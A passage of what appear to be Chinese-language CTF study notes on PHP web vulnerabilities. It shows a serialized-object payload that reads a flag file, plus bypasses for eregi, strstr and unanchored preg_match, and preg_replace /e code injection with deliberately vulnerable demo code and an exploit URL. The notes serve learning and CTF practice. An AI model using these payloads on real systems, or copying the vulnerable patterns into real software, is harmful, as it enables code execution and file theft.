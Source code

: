		发现存在Here_1s_7he_fl4g_buT_You_Cannot_see.php。
		读取文件内容：
		通过file_get_contents读取文件内容
		设置$mdzz='O:5:"OowoO":1:{s:4:"mdzz";s:87:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"))";}'
		序列话结果O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}
		文件名设置为|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}。
		显示结果为：
		
		最后就得到flag了。

14. eregi

		%00截断绕过
		参数为数组时它的返回值不是FALSE

15. strstr

		大小写绕过

16. preg_match

	如果在进行正则表达式匹配的时候，没有限制字符串的开始和结束(^ 和 $)，则可以存在绕过的问题
	
	<?php
	$ip = 'asd 1.1.1.1 abcd'; // 可以绕过
	if(!preg_match("/(\d+)\.(\d+)\.(\d+)\.(\d+)/",$ip)) {
	  die('error');
	} else {
	   echo('key...');
	}
	?>

	换行符%0a,%d0

18. preg_replace()
preg_replace()函数导致的代码注射。当pattern中存在/e模式修饰符，即允许执行代码。这里我们分三种情况讨论下

	+ preg_replace() pattern 参数注射
		
		pattern即第一个参数的代码注射。
		当magic_quotes_gpc=Off时，导致代码执行。
		demo code 3.1:
		<?php
		echo $regexp = $_GET['reg'];
		$var = '<php>phpinfo()</php>';
		preg_replace("/<php>(.*?)$regexp", '\\1', $var);
		?>
		
		访问http://127.0.0.1/preg_replace1.php?reg=%3C\/php%3E/e 即
		执行phpinfo()。
		
	3.2 preg_replace() replacement参数注射
		
		replacement即第二个参数的代码注射，导致代码执行。
		demo code 3.2:
		<?
		preg_replace("/menzhi007/e",$_GET['h'],"jutst test menzhi007!");
		?>
		